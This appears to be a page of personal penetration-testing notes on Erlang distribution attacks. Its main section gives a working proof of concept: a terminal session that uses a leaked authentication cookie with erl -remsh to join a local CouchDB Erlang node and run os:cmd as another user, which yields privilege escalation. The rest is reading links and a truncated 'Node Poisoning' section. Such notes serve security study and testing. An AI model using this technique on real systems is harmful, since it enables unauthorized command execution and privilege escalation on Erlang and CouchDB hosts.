 # Erlang

## Authentication Cookie RCE

If the authentication cookie for an Erlang node is leaked, then you can take advantage of this to achieve RCE.  Typically this will be via local port tcp/4369.  The following PoC connects to a local node with a cookie of cookieval, and then spawns a command on an adjacent node with the same cookie value.  If the adjacent node is run by `mainuser` then we achieve privilege escalation.

```
otheruser@booj:/$ export HOME=/tmp
export HOME=/tmp
otheruser@booj:/$ erl -sname booj -setcookie cookieval -remsh couchdb@localhost
<me booj -setcookie cookieval -remsh couchdb@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(couchdb@localhost).
net_adm:ping(couchdb@localhost).
pong
(booj@booj)2> spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

**Further Reading**

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://legacy.gitbook.com/book/reboare/booj-security/edit#)

## Node Poisoning

Connecting to an erlang cluster can potentially be dangerous.  The key matter of

## Cookie Bruteforcing

**Further Reading**

[https://www.broot.ca/erlang-remsh-is-dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)

[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html)

[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)

[https://blog.voltone.net/post/4](https://blog.voltone.net/post/4)

[https://blog.voltone.net/post/12](https://blog.voltone.net/post/12)

[https://www.youtube.com/watch?v=42k70Y-yTYY](https://www.youtube.com/watch?v=42k70Y-yTYY)

[https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf](https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf)

